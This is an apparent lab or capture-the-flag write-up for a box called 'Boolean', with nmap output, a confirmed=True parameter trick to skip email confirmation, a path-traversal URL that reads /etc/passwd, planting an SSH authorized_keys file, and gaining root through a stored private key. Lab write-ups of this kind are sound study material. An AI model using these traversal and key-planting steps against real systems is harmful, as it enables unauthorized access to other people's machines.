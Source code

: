 #Pwned! 
```IP
192.168.180.231
```
## Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.180.231 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)            
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBv
gZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)           
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open   http    syn-ack ttl 61                
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean                       
|_Requested resource was http://192.168.180.231/login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings:                 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, Termin
alServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
3000/tcp  closed ppp     reset ttl 61
33017/tcp open   http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
```
## SSH
rsa
ecdsa

## HTTP 80
redirects to login page
Other directories
register
we need email confirmation

## HTTP 33017
Development
apache http server??
```
whatweb http://192.168.180.231:33017
```
Apache 2.4.38
## 3000


# Exploitation
we can alter the data by sending parameter confirmed=True
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120115231.png?raw=true)
## LFI
```
http://192.168.180.231/?cwd=../../../../../etc/&file=passwd&download=true
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120122332.png?raw=true)
 we can path traversal to remi ssh directory
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133539.png?raw=true)
 upload here a public key named authorized_keys created with the following command:
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133620.png?raw=true)
 and we are in

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133518.png?raw=true)
# PrivEsc

## Manual
Doesnt seem possible to exploit CVE-2019-13272
https://github.com/jas502n/CVE-2019-13272/tree/master

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120140346.png?raw=true)

we have root keys in .ssh/keys/root
```
ssh root@127.0.0.1 -i .ssh/keys/root
```
we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120173339.png?raw=true)

## Automated

### Peass
active ports
```
127.0.0.1:3306
127.0.0.1:3000          0.0.0.0:*               LISTEN      847/puma 5.6.5 (tcp
```
ptrace protection is disabled (0), so sudo tokens could be abused
useful software
```
/usr/bin/nc.traditional
```
mysql  Ver 15.1 Distrib 10.3.36-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
uncommon password files
```
/etc/pam.d/passwd
/etc/passwd
/usr/share/bash-completion/completions/passwd
/usr/share/lintian/overrides/passwd
```
SUID
```
/usr/bin/chfn  --->  SuSE_9.3/10
```
.sh files in path
```
/usr/bin/gettext.sh
```

ps aux
```
puma 5.6.5 (tcp://127.0.0.1:3000) [boolean]
```
### Mimikatz

# Lateral Movement

